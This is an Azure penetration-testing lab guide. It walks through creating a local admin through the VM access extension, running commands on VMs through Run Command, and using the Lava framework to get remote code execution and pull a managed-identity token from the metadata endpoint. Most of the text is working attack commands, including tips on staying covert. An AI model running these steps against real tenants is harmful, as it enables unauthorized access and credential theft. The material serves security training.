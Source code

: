 

## Task 1 – Exploiting the password reset feature to create a local administrative user
In this exercise, we will exploit the password reset feature for Azure VMs to create a local administrative user that can be used to connect to the VM, where we will hunt for credentials on it. 

1. In a PowerShell console on your pentest VM, use the following commands to authenticate to Entra ID (Azure AD) and Azure as the **`Ava`**. Replace the **`USERNAME`** and **`PASSWORD`** placeholders with the real values of Ava's credentials from the **`LABXX-Info`** exercise file.

```
$username = "USERNAME"
$password = "PASSWORD" | ConvertTo-SecureString -AsPlainText -Force

$cred = New-Object System.Management.Automation.PSCredential($username, $password)

Connect-AzAccount -Credential $cred
Connect-AzureAD -Credential $cred
```

2. Obtain a list of VMs in the subscription using the following command:
```
Get-AzVM
```

3. Create a new local user on the winvm01 VM using the following command:
```
Set-AzVMAccessExtension -ResourceGroupName "PENTEST-RG" -VMName "winvm01" -Credential (get-credential) -typeHandlerVersion "2.0" -Name VMAccessAgent
```

4. When prompted, enter **`pentestuser`** as the username and **`AzPentestCourse2023!`** as the password, then click **`OK`**.
* This creates a new user account that does not exist on the VM. It only requires the **`runCommand`** permission.

5. Obtain the public IP of **`winvm01`** with the following command:
* Remember that if a VM does not have a public IP or the RDP port is not open, you can always use the Contributor role permissions to expose the service on a public IP. This is a major state change in most environments and increases risk, so it is not recommended for most environments.
```
Get-AzPublicIpAddress -Name winvm01* | Select IpAddress
```

6. Connect to the public IP over RDP and authenticate using the username **`pentestuser`** and the password **`AzPentestCourse2023!`**. Congratulations! You have successfully created a local administrator user on the VM.

**NOTE**: This is a very handy feature, but it's not always the most appropriate tool to use during an assessment. Let's say that we want to be a little more covert in our actions during a test. Creating a new local administrator user on a system might trigger some alarms. As an alternative, we can use native Azure functionality to run commands directly on VMs, without the need for an additional account.

### Task 2 - Exploiting the Run Command feature

1. Get all running Windows VMs in the sunscription into a variable using the following command:
```
$VMs = Get-AzVM -Status | where {($_.PowerState -EQ "VM running") -and ($_.StorageProfile.OSDisk.OSType -eq "Windows")}

$VMs | select ResourceGroupName,Name
```

2. Enter the **`whoami`** command into a PowerShell (ps1) file first:
```
echo "whoami" > whoami.ps1
```

3. To execute commands, we will need to pass in the resource group and the name of the VM that we are running the commands on. Thanks to the magic of the PowerShell pipeline, we can pass the VMs variable to the Invoke-AzRunCommand function, along with the local script. NOTE that this could take a long time to complete and have been known to hand at times. We recommend opening a new PowerShell window and proceeding to the next task.
```
$VMs | Invoke-AzVMRunCommand -CommandId 'RunPowerShellScript' -ScriptPath .\whoami.ps1
```

4. While this approach is fine for our sample environment, this will attempt to run your PowerShell script on all VMs in the subscription. You may want to focus on individual VMs for command execution during a normal Azure penetration test. This can be done by specifying individual VMs and resource groups, or by using the indices of the VMs variable that we created earlier. 


### Task 3 - Leveraging Lava for remote code execution
* Lava is a Python-based Microsoft Azure exploitation framework. It has multiple built-in modules that can be used to exploit various misconfigurations in Azure. 

1. Open a PowerShell console on your pentest VM. SSH into the Linux VM specified in your **`LABXX-Info`** exercise file. Enter the password when prompted.
```
ssh linuxadmin@linuxvm-xxxxxxxxxxxxxxxxxxxxxx
```

2. Authenticate to Azure CLI using the following command. Replace the **`AVA_USERNAME`** and **`AVA_PASSWORD`** placeholders with the real values of Ava's credentials from the **`LABXX-Info`** exercise file:
```
az login --username "AVA_USERNAME" --password "AVA_PASSWORD"
```

3. Download Lava using the following command:
```
git clone https://github.com/mattrotlevi/lava.git
```

4. Switch to the Lava directory and run it using the following commands:
```
cd lava/
python3 lava.py
```

5. In the Lava console, confirm the authenticated user using the **`whoami`** command:
```
whoami
```
6. List all the modules in Lava using the following command:
```
ls
```

7. Lava has a lot of modules that can be used to exploit resources in different scenarios but in this task, we will be using two main modules: **`vm_list_privileged`** and **`vm_rce`**. Use the **`vm_list_privileged`** module to check whether any VM in the subscription is associated with a privileged managed identity. To execute a module in Lava, the command needs to be preceded by the exec keyword:
```
exec vm_list_privileged
```

8. You can see from the output that the module found some VMs with privileged access. Use the **`vm_rce`** module to exploit the Run Command functionality for code execution. You will need to specify the VM name and resource group as shown here:

```
exec vm_rce -rgrp PENTEST-RG -vm_name LinuxVM
```

9. In the shell, run the following command to obtain an access token for the resource manager. This will obtain an access token that can be used to make API calls with the  privileges of the resource:
```
curl 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com' -H Metadata:true
```

10. Highlight and copy only the value of the access token. Make sure you do not copy the trailing comma. Paste it in a notepad document. Type **`exit`** and press **`Enter`** to return to the Lava console. Type **`exit`** again and press **`Enter`** to return to the Bash shell in Linux. 

Congratulations! You have successfully exploited the Run Command functionality to execute code on an Azure resource and obtain an access token that can be used to make API calls with the privileges of the resource. This is a very powerful attack vector that can be used to escalate privileges in Azure.